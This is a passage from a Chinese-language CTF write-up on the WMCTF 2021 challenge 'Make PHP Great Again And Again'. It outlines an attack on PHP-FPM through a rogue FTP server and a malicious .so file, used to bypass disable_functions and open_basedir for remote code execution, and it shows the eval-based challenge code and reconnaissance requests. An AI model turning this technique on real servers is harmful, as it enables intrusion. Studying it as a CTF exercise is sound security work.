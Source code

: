 ![image-20211112234038671](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211112234038671.png)

成功转发

#### 使用ftp://将payload打向fpm

结合上面几个实例应该就很清晰了，思路就是：

- 编写包含执行系统命令的恶意.so
- 打向fpm的一波流量，用于解开open_basedir, allow_url_include等的限制，形式是file_put_contents('ftp://xxx',$payload)
- 用file_put_contents('/tmp/wuhu.so',$_POST['data'])的形式将.so传入
- 如果顺利的话open_basedir解开限制，.so被包含，就可以成功执行.so中的代码做到rce了

这里的完美栗子当然是赵总的三句话（指路赵总博客->[WMCTF2021-Web-Make PHP Great Again And Again WriteUp](https://www.zhaoj.in/read-6951.html)

#### [WMCTF 2021]Make PHP Great Again And Again

思路先放在前面：找到fpm端口->搭建恶意ftp_server 将.so文件转发至fpm端口->利用.so文件执行命令->拿flag

题目代码只有三句话

```php
<?php
highlight_file(__FILE__);
@eval($_GET['glzjin']);
```

直接看phpinfo();会500，用`get_cfg_var`获取配置项

```
/?glzjin=var_dump(get_cfg_var(%27disable_functions%27));
```

```
string(657) "stream_socket_client,fsockopen,pfsockopen,ini_alter,ini_set,ini_get,posix_kill,phpinfo,putenv,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,iconv,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,error_log,debug_backtrace,debug_print_backtrace,gc_collect_cycles,array_merge_recursive"
```

只能说该禁的都禁了；再康康allow_url_fopen和include

```
string(1) "1"
string(0) ""
```

再康康open_basedir

```
/?glzjin=var_dump(get_cfg_var(%27open_basedir%27));
```

```
string(14) "/var/www/html/"
```
